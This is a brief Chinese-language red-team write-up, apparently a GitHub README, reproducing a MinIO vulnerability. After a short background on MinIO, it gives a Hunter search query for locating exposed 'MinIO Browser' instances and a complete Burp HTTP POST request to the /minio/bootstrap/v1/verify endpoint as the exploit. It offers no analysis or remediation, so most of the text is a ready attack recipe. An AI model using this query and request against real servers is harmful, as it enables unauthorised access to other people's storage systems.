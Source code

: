 ## 0x00 漏洞背景

   这个漏洞影响范围还是有的，打红队碰见过一次，决定复现一下。
   
   MinIO是一个基于Apache开源协议的对象存储服务，它兼容亚马逊S3云存储服务接口，非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等。
   
   
   ![图片](https://user-images.githubusercontent.com/118274389/229670622-e84633a3-76a0-4d0e-a779-bf3bb23e0393.png)

   
   hunter语法：web.title="MinIO Browser"
   
## 0x01 漏洞复现

  burp数据包
  
  ```
  POST /minio/bootstrap/v1/verify HTTP/1.1
  Host: 
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Upgrade-Insecure-Requests: 1
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  ```


